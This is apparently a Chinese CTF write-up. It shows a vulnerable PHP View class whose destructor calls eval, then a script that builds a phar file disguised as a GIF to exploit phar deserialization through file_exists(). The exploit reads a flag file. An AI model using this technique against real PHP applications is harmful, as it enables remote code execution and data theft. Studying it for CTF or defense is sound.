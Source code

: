 转到声明：

```
  class View
  {
    public $dir;
    private $cmd;
    …………
    …………
    function show_img($file_name) {
      $name = $file_name;
      $width = getimagesize($name)[0];
      $height = getimagesize($name)[1];
      $times = $width / 200;
      $width /= $times;
      $height /= $times;
      $template = "
<img style=\"clear: both;display: block;margin: auto;\" src=\"$this->dir$name\" 
alt=\"$file_name\" width = \"$width\" height = \"$height\">
      ";
      echo $template;
    }

    function delete_img($file_name) {
      $name = $file_name;
      if (file_exists($name)) {
        @unlink($name);
        if(!file_exists($name)) {
          echo "<p align=\"center\" style=\"font-weight: bold;\">成功删除! 3s后跳转</p>";
          header("refresh:3;url=view.php");
        } else {
          echo "Can not delete!";
          exit;
        }
      } else {
        echo "<p align=\"center\" style=\"font-weight: bold;\">找不到这个文件! </p>";
      }
    }

    function __destruct() {
      eval($this->cmd);
    }
  }
```

`function delete_img` 里面有 `file_exists()` 可以触发phar反序列化，那么我们就开始构造phar文件：

```
<?php
class View
{
    public $dir;
    private $cmd = 'show_source("/var/www/html/flag.php");';
}
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new view();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.jpg", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

